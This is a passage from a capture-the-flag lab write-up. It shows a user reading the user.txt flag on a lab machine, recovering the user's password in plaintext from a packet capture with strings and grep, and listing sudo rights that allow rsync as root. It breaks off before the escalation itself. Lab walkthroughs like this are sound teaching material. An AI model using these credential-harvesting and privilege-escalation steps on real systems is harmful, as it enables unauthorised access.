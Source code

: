 ### smith to root (sudo rsync)

We attempt to read the `user.txt` flag, but we lack read permissions. Since we own the file, we grant ourselves read access.

```bash
smith@matrix:~$ chmod +r user.txt 
smith@matrix:~$ ls -la
total 40
drwx--x--x 5 smith smith 4096 Jan 29 14:09 .
drwxr-xr-x 3 root  root  4096 Jan 28 22:41 ..
lrwxrwxrwx 1 smith smith    9 Jan 29 00:07 .bash_history -> /dev/null
-rwx------ 1 smith smith  220 Mar 29  2024 .bash_logout
-rwx------ 1 smith smith 3526 Mar 29  2024 .bashrc
drwx------ 3 smith smith 4096 Jan 28 23:45 .local
drwx------ 2 smith smith 4096 Jan 29 13:54 messages
-rwx------ 1 smith smith  807 Mar 29  2024 .profile
-rwx------ 1 smith smith   66 Jan 28 23:45 .selected_editor
drwx------ 2 smith smith 4096 Jan 29 14:09 .ssh
-rw-r--r-- 1 smith smith   33 Jan 29 01:15 user.txt
smith@matrix:~$ cat user.txt 
13.....................6
```

`sudo` is installed, and `smith`’s password is leaked in the `rsync` traffic from the initial pcap file.

```bash
$ strings trinity.pcap | grep -A 3 -B 3 smith
 ....
--
matrix
morpheus
matrix
RSYNC COMMAND: rsync --daemon /home/smith/file.txt 192.168.2.100:/backup/smith/
PASSWORD: kT8020e136Z2YLJa2fEZ
OK: File transferred successfully
RSYNC COMMAND: rsync --daemon /home/john/file.txt 192.168.2.100:/backup/john/
--
 ....
```

We can also verify this using Wireshark.

```bash
smith@matrix:~$ sudo -l
[sudo] password for smith: 
Matching Defaults entries for smith on matrix:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User smith may run the following commands on matrix:
    (ALL) PASSWD: /usr/bin/rsync
```
